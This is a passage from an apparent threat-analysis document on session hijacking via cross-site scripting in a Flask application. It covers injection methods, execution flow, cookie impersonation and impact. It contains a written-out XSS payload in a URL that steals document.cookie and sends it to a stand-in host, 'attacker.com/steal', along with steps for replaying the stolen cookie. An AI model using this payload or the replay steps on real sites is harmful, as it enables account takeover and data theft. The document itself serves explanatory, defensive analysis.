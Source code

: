     *   **Injection Methods:** The injection method depends on the type of XSS vulnerability:
        *   **Reflected XSS:** The attacker crafts a malicious URL containing the payload and tricks the victim into clicking it. This can be done via phishing emails, social media links, or embedding the URL in other websites.
        *   **Stored XSS:** The attacker submits the payload as user input that gets stored by the application (e.g., in a comment, forum post, profile field).  Any user viewing the stored content will execute the payload.

    *   **Example Injection (Reflected XSS):** Using the Flask example from 4.2.1, the attacker would create a malicious URL like:

        ```
        http://vulnerable-flask-app.com/?name=<script>(function(){var cookie=document.cookie;var img=new Image();img.src="https://attacker.com/steal?cookie="+encodeURIComponent(cookie);})();</script>
        ```

        And send this link to the victim.

*   **4.2.4. When a user visits the vulnerable page, the JavaScript executes, steals the session cookie, and sends it to the attacker.**

    *   **Execution Flow:** When the victim clicks the malicious link (or visits a page with stored XSS), their browser sends a request to the Flask application.
    *   The vulnerable Flask application processes the request and, due to the XSS vulnerability, includes the attacker's JavaScript payload in the HTML response.
    *   The victim's browser receives the HTML response and executes the embedded JavaScript.
    *   The JavaScript payload executes, accesses `document.cookie`, and sends the session cookie to the attacker's server (e.g., `attacker.com/steal`).

*   **4.2.5. Attacker uses the stolen session cookie to impersonate the user and gain unauthorized access.**

    *   **Session Cookie Impersonation:** Once the attacker has the session cookie, they can use it to impersonate the victim. This is typically done by:
        *   **Setting the Cookie in their Browser:** Using browser developer tools or extensions to manually set the stolen session cookie for the target application's domain.
        *   **Programmatic Access:** Using tools like `curl` or scripting languages to send HTTP requests to the Flask application, including the stolen session cookie in the `Cookie` header.

    *   **Unauthorized Access:** By presenting the stolen session cookie, the attacker bypasses the normal authentication process. The Flask application, relying on session-based authentication, will recognize the cookie as valid and associate it with the victim's session. This grants the attacker full access to the victim's account and all its associated privileges.

#### 4.3. Impact Analysis

Successful session hijacking via XSS can have severe consequences:

*   **Account Takeover:** The attacker gains complete control over the victim's account. They can change passwords, modify profile information, access sensitive data, and perform actions as the victim.
*   **Data Breach:** The attacker can access and exfiltrate sensitive user data, including personal information, financial details, confidential documents, and application-specific data.
*   **Unauthorized Actions:** The attacker can perform unauthorized actions on behalf of the victim, such as making purchases, initiating transactions, posting malicious content, or modifying critical application data.
*   **Reputation Damage:** If the attack is widespread or publicly known, it can severely damage the application's reputation and user trust.
*   **Financial Loss:** Depending on the application's purpose, session hijacking can lead to direct financial losses for users and the organization.
*   **Compliance Violations:** Data breaches resulting from session hijacking can lead to violations of data privacy regulations (e.g., GDPR, CCPA) and associated penalties.
